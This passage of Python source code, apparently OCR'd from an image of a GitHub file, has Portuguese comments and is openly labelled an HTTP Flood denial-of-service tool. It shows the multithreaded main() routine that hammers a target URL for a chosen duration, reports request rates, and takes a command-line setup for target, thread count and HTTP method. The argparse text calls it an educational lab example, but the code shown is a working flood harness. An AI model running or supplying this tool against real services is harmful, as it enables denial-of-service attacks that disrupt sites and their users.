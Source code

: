 ```python
            
        # Pequena pausa para não sobrecarregar a CPU local
        time.sleep(0.01)

def main(url, num_threads=10, method="GET", duration=30, attack_id=0):
    """Função principal para coordenar o ataque HTTP Flood"""
    global request_count
    
    print(f"[*] Atacante #{attack_id} - Iniciando HTTP Flood para {url}")
    print(f"[*] Método: {method} | Threads: {num_threads} | Duração: {duration} segundos")
    
    # Inicializa as threads
    threads = []
    for i in range(num_threads):
        t = threading.Thread(
            target=worker,
            args=(url, attack_id, method, duration)
        )
        threads.append(t)
        t.daemon = True
        t.start()
    
    # Monitoramento em tempo real
    start_time = time.time()
    last_count = 0
    
    try:
        while time.time() < start_time + duration:
            time.sleep(1)
            current_time = time.time() - start_time
            current_count = request_count
            rate = current_count - last_count
            
            print(f"[*] Atacante #{attack_id} - Tempo: {int(current_time)}s | Requisições: {current_count} | Taxa: {rate} req/s", end='\r')
            
            last_count = current_count
    
    except KeyboardInterrupt:
        print("\n[!] Ataque interrompido pelo usuário")
    
    # Aguarda todas as threads terminarem
    for t in threads:
        t.join(0.1)
    
    # Estatísticas finais
    elapsed_time = time.time() - start_time
    rate = request_count / elapsed_time if elapsed_time > 0 else 0
    
    print(f"\n[*] Atacante #{attack_id} - Ataque concluído")
    print(f"[*] Total de requisições: {request_count}")
    print(f"[*] Duração: {elapsed_time:.2f} segundos")
    print(f"[*] Taxa média: {rate:.2f} requisições/segundo")

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description='Exemplo educacional de HTTP Flood para laboratório')
    parser.add_argument('url', help='URL alvo (ex: http://192.168.1.100/)')
    parser.add_argument('-t', '--threads', type=int, default=10, help='Número de threads (padrão: 10)')
    parser.add_argument('-m', '--method', choices=['GET', 'POST'], default='GET', help='Método HTTP (padrão: GET)')
```